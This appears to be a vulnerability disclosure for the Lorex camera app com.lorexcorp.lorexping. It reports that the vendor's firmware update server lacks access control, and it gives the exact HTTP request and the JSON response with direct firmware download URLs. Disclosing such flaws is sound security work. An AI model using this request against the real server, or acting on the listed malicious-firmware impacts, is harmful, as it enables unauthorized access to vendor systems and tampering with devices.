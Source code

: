 # Vulnerability Report - com.lorexcorp.lorexping- Incorrect Access Control

**Product:** `com.lorexcorp.lorexping` 

**Vendor:** [LOREX TECHNOLOGY INC.](https://www.lorex.com/)

**Version:** 1.4.22

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.lorexcorp.lorexping` , developed by **LOREX TECHNOLOGY INC.A**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `Auto_upgrade_url` Field  value in the `CameraList` class provides the necessary URL and other information required for the HTTPS request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003214700323](https://s2.loli.net/2024/10/03/ixTsJbZRLPuCXMz.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET http://str.flirservices.com/versions.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: str.flirservices.com
   Content-Length: 0
   Content-Type: text/plain
   
   
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Content-Length: 868
   Content-Type: application/json
   Date: Thu, 03 Oct 2024 13:42:16 GMT
   Etag: "3655eca77c83591851e0abd87e92f2bb"
   Last-Modified: Tue, 06 Feb 2018 09:52:17 GMT
   Server: AmazonS3
   X-Amz-Id-2: wwD2GZDQmODJeyhaGZQmtO3KB3MszIKN7R7vM1v4RnsocC1pM0usqPbKQV1+vPAyQNuhrbeEm2Y=
   X-Amz-Request-Id: DHRTFK81XQGVCMR3
   
   {
     "vendor": "starvidia",
     "products": [
       {
         "model": "LNC104",
         "version": "030605",
         "url": "http://str.flirservices.com/LNC104/LNC104_20150624_030699.bin",
         "md5": "",
         "type": "regular",
         "source": "*"
       },
       {
         "model": "LNC204",
         "version": "030605",
         "url": "http://str.flirservices.com/LNC204/LNC204_20150624_030699.bin",
         "md5": "",
         "type": "regular",
         "source": "*"
       },
       {
         "model": "LNC226",
         "version": "030605",
         "url": "http://str.flirservices.com/LNC226/LNC226_20150624_030699.bin",
         "md5": "",
         "type": "regular",
         "source": "*"
       },
       {
         "model": "LNC234",
         "version": "030605",
         "url": "http://str.flirservices.com/LNC234/LNC234_20150624_030699.bin",
         "md5": "",
         "type": "regular",
         "source": "*"
       }
     ]
   }
   
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003214804996](https://s2.loli.net/2024/10/03/SCUOHYW3N9EsotV.png)
   
   In total, we successfully downloaded **4 firmware** by exploiting the vulnerability.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.
* Deprecate the firmware download links used in the old app.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.